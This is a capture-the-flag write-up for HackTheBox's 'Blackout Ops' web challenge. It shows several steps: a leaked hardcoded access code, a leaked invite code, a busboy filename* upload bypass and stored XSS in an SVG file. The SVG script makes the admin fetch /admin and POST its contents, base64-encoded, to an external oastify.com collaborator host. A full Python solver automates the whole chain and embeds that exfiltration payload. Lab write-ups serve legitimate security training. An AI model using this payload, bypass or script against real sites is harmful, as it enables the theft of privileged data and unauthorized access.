

# HackTheBox — Blackout Ops [Easy]

In this write-up, we will solve the **Blackout Ops** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Now let’s navigate to the website.



> As we see we have a login page and register page.
> 

Now let’s try to register an account.


> Notice that the application require a registration code to register an account
> 

So let’s review the code.


> As we see we found in the database.js file a hardcoded access code for the administrator: **ADMININV123**
> 

Now let’s try to register and account

```python
email: remo@blackouts.htb
access_code: ADMININV123
```


Now let’s try to login with our account.


> As we see we managed to bypass the registration and login to the application.
> 

No let’s navigate to the evidence tab.


> As we see it’s a simple file upload function
> 

Now let’s try to upload a file.


> As we see as our user is not verified we can’t upload any files
> 

Now let’s try to verify the account.


> To verify the account we must have and Invitation code.
> 

So let’s click on new code and intercept the request.


> Please note that the code is leaked in the response
> 

Now let’s validate it.


> As we see we managed to verify the account.
> 

Now let’s go back to the evidence upload function.


> As we see we managed to bypass the email verification and upload a file.
> 

Now let’s see how the upload function is handled from the code!


> We found that the upload function is handled via busboy library
> 

Now let’s see if it has any bypass


> As we see we found that we can bypass the file name using
filename* in request
Blog Link: [https://blog.sicuranext.com/breaking-down-multipart-parsers-validation-bypass/](https://blog.sicuranext.com/breaking-down-multipart-parsers-validation-bypass/)
> 

Now let’s add this to our file upload request


> As we see we managed to upload an SVG file
> 

Now let’s go and validate it


> Niceeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee we managed to trick the application to upload and SVG file
> 

Now let’s go and add a malicious XSS code and see if it is triggered 

```jsx
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      alert(0x539);
   </script>
</svg>
```


> As we see it’s uploaded
> 

Now let’s view the file.


Let’s see if the payload triggered.


> Amazing we managed to trigger an alert!
> 

Now let’s go back to the dashboard.


> Notice that the we have Incident report function
> 

Now let’s see how it’s handled from the code.


> As we see we found that the function takes the incident report title and description and send it to the administrator and then the application retrieve the admin credentials to navigate to the url provided in the form
> 

Now what is the attack vector to chain all this!?

1. We will upload a malicious SVG file that will force the admin to navigate to the admin panel and retrieve it’s content 
2. we will submit a new incident giving it the url of the malicious SVG file
3. the administrator navigate to the file the JavaScript will trigger and fetch the admin panel page and send us it’s content

Now let’s go and make a malicious SVG file.

```jsx
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      fetch('/admin').then(res => res.text()).then(html => fetch('http://ezhhvzg9bjm71uhiuwxk3fret5zwnobd.oastify.com/admin',{method:'POST',body:"admin_panel="+btoa(html)}));
   </script>
</svg> 
```


> As we see the file was uploaded successfully
> 

Now let’s go and submit an incident report with the SVG File link


> As we see we managed to submit and incident with the [localhost](http://localhost) address and port 1337 and make the path to our malicious SVG file
> 

Now let’s go back to the collaborator 


> As we see we managed to get the admin panel page
> 

Now let’s use the decoder to decode it and put it in html file


> As we see we managed to get the Flag!
> 

Now let’s try to script our solution.

```python
import requests
import argparse
import sys
import re
import base64
from requests_toolbelt.multipart.encoder import MultipartEncoder

ACCESS_TOKEN = "ADMININV123"

def register(base_url: str, email: str, access_token: str, collaborator: str):
    url = base_url.strip('/') + "/graphql"
    data = {
        "query": f"""
        mutation {{
          register(email: "{email}", password: "{access_token}") {{
            id
            email
            role
            verified
          }}
        }}
        """
    }

    try:
        res = requests.post(url, json=data, timeout=10)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")
        sys.exit(1)

    json_response = res.json()
    if "data" in json_response and "register" in json_response["data"]:
        print("[+] Successfully registered new user: ", json_response["data"]["register"])
        login(base_url,email,access_token,collaborator)
    else:
        print("[-] Registration failed:", json_response)
        print("[!] May the user exists will try to login")
        login(base_url,email,access_token)

def login(base_url: str,email: str, access_token: str, collaborator: str):
    url = base_url.strip('/') + "/graphql"
    data = {
        "query": f"""
        mutation {{
          login(email: "{email}", password: "{access_token}") {{
            id
            email
            role
            verified
          }}
        }}
        """
    }
    try:
        session = requests.Session()
        res = session.post(url, json=data, timeout=10)
        res.raise_for_status()
    except session.RequestException as e:
        print(f"[-] Request failed: {e}")
        sys.exit(1)

    json_response = res.json()
    if "data" in json_response and "login" in json_response["data"]:
        print("[+] Successfully logged in: ", json_response["data"]["login"])
        get_invite_code(session,base_url,collaborator)
    else:
        print("[-] Login failed:", json_response)
        sys.exit(1)

def get_invite_code(session: requests.Session, base_url: str, collaborator: str):
    url = base_url.strip('/') + "/graphql"
    data = {
        "query": """
        mutation {
          regenerateInviteCode {
            id
            email
            inviteCode
            verified
          }
        }
        """
    }
    res = session.post(url,json=data,timeout=10)
    json_response = res.json()
    if "data" in json_response and "regenerateInviteCode" in json_response["data"]:
        invite_code = json_response["data"]["regenerateInviteCode"]["inviteCode"]
        print(f"[+] Successfully retrived invite code in: {invite_code}")
        verify_account(session,base_url,invite_code,collaborator)
    else:
        print("[-] Login failed:", json_response)
        sys.exit(1)

def verify_account(session: requests.Session, base_url: str, invite_code: str, collaborator: str):
    url = base_url.strip('/') + "/graphql"
    data = {
        "query": f"""
        mutation {{
          verifyAccount(inviteCode: "{invite_code}") {{
            id
            email
            role
            verified
          }}
        }}
        """
    }
    res = session.post(url, json=data, timeout=10)
    json_response = res.json()
    if "data" in json_response and "verifyAccount" in json_response["data"]:
        is_verified = json_response["data"]["verifyAccount"]["verified"]
        if is_verified: 
            print(f"[+] Successfully verfied the account: ", json_response["data"]["verifyAccount"])
            upload_svg_file(session,base_url,collaborator)
    else:
        print("[-] Login failed:", json_response)
        sys.exit(1)

def upload_svg_file(session: requests.Session, base_url: str, collaborator: str):
    url = base_url.strip('/') + "/upload"

    boundary = "----WebKitFormBoundaryIEP63U3yHqQKkaFV"
    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}"
    }

    payload = f"""<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
  <rect width="124" height="124" rx="24" fill="#000000"/>
  <script>
    fetch('/admin')
      .then(res => res.text())
      .then(html => fetch('{collaborator}/', {{
          method: 'POST',
          body: "admin_panel=" + btoa(html)
      }}));
  </script>
</svg>"""

    data = (
        f"--{boundary}\r\n"
        f"Content-Disposition: form-data; name=\"file\"; filename=\"remo.jpg\";filename*=utf-8''secret.svg\r\n"
        f"Content-Type: blackouts/jpeg\r\n\r\n"
        f"{payload}\r\n"
        f"--{boundary}--\r\n"
    )

    res = session.post(url, data=data.encode(), headers=headers, timeout=10)
    if "Upload complete" in res.text:
        print("[+] File Uploaded Successfully")
        incident_link = "http://127.0.0.1:1337/files/secret.svg"
        print(f"[+] The incident link is: {incident_link}")
        send_incident(session, base_url, incident_link, collaborator)
    else:
        print("[-] Upload may have failed:", res.status_code, res.text[:200])

def send_incident(session: requests.Session, base_url: str,incident_link: str,collaborator: str):
    url = base_url + "/graphql"
    data = {
        "query": f"""
        mutation {{
          submitIncidentReport(
            title: "SecretRemo",
            details: "SecretRemo Was Here",
            evidenceUrl: "{incident_link}"
          ) {{
            id
            title
            details
            evidenceUrl
            submittedAt
          }}
        }}
        """
    }
    try:
        res = session.post(url, json=data, timeout=10)
        json_response = res.json()
        if "data" in json_response and "submitIncidentReport" in json_response["data"]:
            print("[+] Incident was submited successfully: ", json_response["data"]["submitIncidentReport"])
            decode_admin_panel()
        else:
            print("[-] Login failed:", json_response)
            sys.exit(1)
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")

def decode_admin_panel():
    encoded_admin_panel = input("Please enter base64 encoded data recived from collaborator: ")
    decode_admin_panel_page = base64.b64decode(encoded_admin_panel)

    try:
        page_text = decode_admin_panel_page.decode("utf-8", errors="ignore")
    except Exception as e:
        print("[-] Failed to decode as UTF-8:", e)
        page_text = decode_admin_panel_page.decode("latin-1", errors="ignore")

    if page_text:
        print("[+] Decoded Admin Panel")
        get_flag(page_text)
    else:
        print("[-] Unable to decode admin panel")

def get_flag(page_source: str):
    # properly escaped braces and closed capturing group
    flag_regex = re.compile(r"(HTB\{.*?\})", re.IGNORECASE)
    flag_match = re.search(flag_regex, page_source)
    if flag_match:
        print(f"[+] Finally Got the flag: {flag_match.group(1)}")
    else:
        print("[-] Failed to get the flag")

def main():
    parser = argparse.ArgumentParser(description="HackTheBox Blackout Ops Solver (register/login/download/verify/phish)")
    parser.add_argument("--email", required=True, help="Email to register/login with")
    parser.add_argument("--url", required=True, help="Target base URL (e.g. https://neo.example)")
    parser.add_argument("--collaborator", required=True, help="you collaborator url")
    args = parser.parse_args()

    base_url = args.url
    email = args.email
    collaborator = args.collaborator
    if not email.endswith("@blackouts.htb"):
        print("[-] Please enter an email ending with @blackouts.htb")
        sys.exit(1)
    else:
        if not collaborator.startswith("http://"):
            print("[-] Please enter an collaborator start with http://")
            sys.exit(1)
        else:
            register(base_url, email, ACCESS_TOKEN,collaborator)

if __name__ == "__main__":
    main()

```


> As we see we got the flag 😭
> 

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT